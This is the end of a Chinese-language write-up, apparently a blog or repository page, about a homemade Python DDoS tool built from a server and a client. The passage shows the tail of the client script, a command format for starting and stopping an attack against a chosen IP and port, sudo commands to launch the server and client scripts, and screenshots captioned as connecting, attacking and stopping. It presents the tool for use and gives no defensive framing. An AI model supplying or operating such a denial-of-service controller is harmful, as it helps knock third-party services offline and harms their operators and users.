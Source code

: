 ```python
        print('=' * 50)
        cmdHandle(s, p)
    except:
        print('The network connected failed!')
        print('Please restart the script!')
        sys.exit(0)

if __name__ == "__main__":
    main()

```

## 测试使用

首先，我们规定了命令格式为：```#-H xxx.xxx.xxx.xxx -p xxxx -c <start>```  
e.g. ```#-H 127.0.0.1 -p 8085 -c start```， ```
#-H 127.0.0.1 -p 8085 -c stop```  

首先执行server脚本，然后执行client脚本，等待连接，连接成功，即可在server端操控client进行攻击，示例如下：
1. 启动server
```
sudo python ddos_server_v0.1.py
```
2. 启动client
```
sudo python ddos_client_v0.1.py
```
3. 连接成功  
![连接成功](http://119.3.78.82:8085/uploads/big/a375724463afb7b4eae2b0550a05764f.png)

4. 进行攻击
![进行攻击](http://119.3.78.82:8085/uploads/big/6961dee0c77ba3b193f26447e4b7932f.png)

5. 停止攻击
![停止攻击](http://119.3.78.82:8085/uploads/big/b41516447d764d6b43914b984a656792.png)

## Reference
[1]Blog.csdn.net. (2019). 网络篇——七层协议、四层协议、TCP、HTTP、SOCKET、长短连接 - 袁伏彪 —— 共享，共赢 - CSDN博客. [online] Available at: https://blog.csdn.net/bjyfb/article/details/6682913 [Accessed 25 Oct. 2019].  
[2]Jb51.net. (2019). Python实现DDoS. [online] Available at: https://www.jb51.net/article/155870.htm [Accessed 25 Oct. 2019].  
[3]Blog.csdn.net. (2019). TCP包的类型 (SYN, FIN, ACK, PSH, RST, URG) - lqglqglqg的专栏 - CSDN博客. [online] Available at: https://blog.csdn.net/lqglqglqg/article/details/48714611 [Accessed 25 Oct. 2019].